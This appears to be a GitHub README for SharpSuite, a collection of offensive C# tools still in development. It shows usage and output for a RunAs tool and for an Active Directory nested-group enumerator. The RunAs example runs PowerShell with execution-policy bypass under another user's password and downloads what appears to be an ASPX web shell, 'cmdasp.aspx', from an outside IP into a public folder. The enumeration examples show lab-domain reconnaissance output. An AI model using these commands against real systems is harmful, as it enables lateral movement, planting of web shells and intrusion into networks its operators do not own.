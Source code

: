 # SharpSuite

SharpSuite is a collection of offensive C# toolkits.

> **Note**: This is in development!

# Tools

This section has an example of each tool.

## RunAs

`RunAs` lets you run a command as another user.

Execute a command as another user:

```powershell
PS C:\Users\Public\Documents> .\RunAs.exe /user:LazyUser2 /pass:'LazyAdminPwd123!' /cmd:'powershell -ep bypass IWR -Uri http://192.168.199.133:9998/cmdasp.aspx -OutFile C:\Users\Public\cmdasp.aspx'
```

The file was created as the user named `LazyUser2`:

```powershell
PS C:\Users\Public\Documents> Get-Acl C:\Users\Public\cmdasp.aspx | Format-Table -Wrap


    Directory: C:\Users\Public


Path        Owner                     Access                                                                           
----        -----                     ------                                                                           
cmdasp.aspx DESKTOP-E2HUJDU\LazyUser2 BUILTIN\Administrators Allow  FullControl                                        
                                      DESKTOP-E2HUJDU\LazyUser2 Allow  FullControl                                     
                                      NT AUTHORITY\SYSTEM Allow  FullControl                                           
                                      NT AUTHORITY\INTERACTIVE Allow  DeleteSubdirectoriesAndFiles, Modify, Synchronize
                                      NT AUTHORITY\SERVICE Allow  DeleteSubdirectoriesAndFiles, Modify, Synchronize    
                                      NT AUTHORITY\BATCH Allow  DeleteSubdirectoriesAndFiles, Modify, Synchronize  
```

## FindGroups

`FindGroups` is used to find nested groups and users that belong to groups in Active Directory.

> **Note**: This applies to both local connections and remote connections. This means that it can be used on servers and workstations that are joined to the domain. It allows you to enumerate groups and their members from other trusted connections/domains.

Search by using `localhost`:

```powershell
PS C:\Users\Administrator\Documents> .\FindGroups.exe /domain:'localhost' /group:"Domain Admins"
[+] Attempting to gather information!
[+] User: Administrator is a member of Domain Admins
[+] Group: Nested is a member of Domain Admins
[+] Group: NestedX2 is a member of Nested
[+] User: Lol Bins is a member of NestedX2
[+] Group: NestedX3 is a member of NestedX2
[+] Group: NestedX4 is a member of NestedX3
[i] Possible misconfiguration found:
        Group: NestedX4 is a member of NestedX4
[!] Stopping the search
```

Search by using the `domain name`:

```powershell
PS C:\Users\Administrator\Documents> .\FindGroups.exe /domain:'lab.local' /group:"Domain Admins"
[+] Attempting to gather information!
[+] User: Administrator is a member of Domain Admins
[+] Group: Nested is a member of Domain Admins
[+] Group: NestedX2 is a member of Nested
[+] User: Lol Bins is a member of NestedX2
[+] Group: NestedX3 is a member of NestedX2
[+] Group: NestedX4 is a member of NestedX3
[i] Possible misconfiguration found:
        Group: NestedX4 is a member of NestedX4
[!] Stopping the search
```

Search by using the `FQDN`:

```powershell
PS C:\Users\Administrator\Documents> .\FindGroups.exe /domain:'dc01.lab.local' /group:"Domain Admins"
[+] Attempting to gather information!
[+] User: Administrator is a member of Domain Admins
[+] Group: Nested is a member of Domain Admins
[+] Group: NestedX2 is a member of Nested
[+] User: Lol Bins is a member of NestedX2
[+] Group: NestedX3 is a member of NestedX2
[+] Group: NestedX4 is a member of NestedX3
[i] Possible misconfiguration found:
        Group: NestedX4 is a member of NestedX4
[!] Stopping the search
```

# ToDo

- [ ] Add more tools